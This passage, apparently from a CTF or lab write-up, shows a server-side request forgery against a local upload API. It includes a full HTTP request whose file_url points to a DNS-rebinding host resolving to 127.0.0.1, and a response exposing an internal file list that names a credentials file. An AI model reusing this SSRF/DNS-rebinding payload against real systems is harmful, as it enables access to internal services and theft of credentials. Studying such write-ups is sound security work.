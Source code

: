 i used this parameter (user\_uuid)  in the request as a get parameter but the response not changing&#x20;

after some barameter guissing i found out it wants parameter called uuid not user\_uuid

request

```http
POST /api/v2/upload HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Length: 101
Origin: http://127.0.0.1
DNT: 1
Sec-GPC: 1
Connection: close
Referer: http://127.0.0.1/
Cookie: uuid_hash=<>
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
X-PwnFox-Color: red
Priority: u=0, i
Content-Type: application/json

{"file_url":"http://7f000001.d83ad3ce.rbndr.us//api/users?uuid=05262283-b53e-4410-8793-21c7eef6ed19"}
```

resoonse&#x20;

```http
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Sat, 27 Jul 2024 09:32:18 GMT
Content-Type: text/html; charset=utf-8
Content-Length: 25
Connection: close

["my-twitter-creds.txt"]
```

And here we go we did it !!
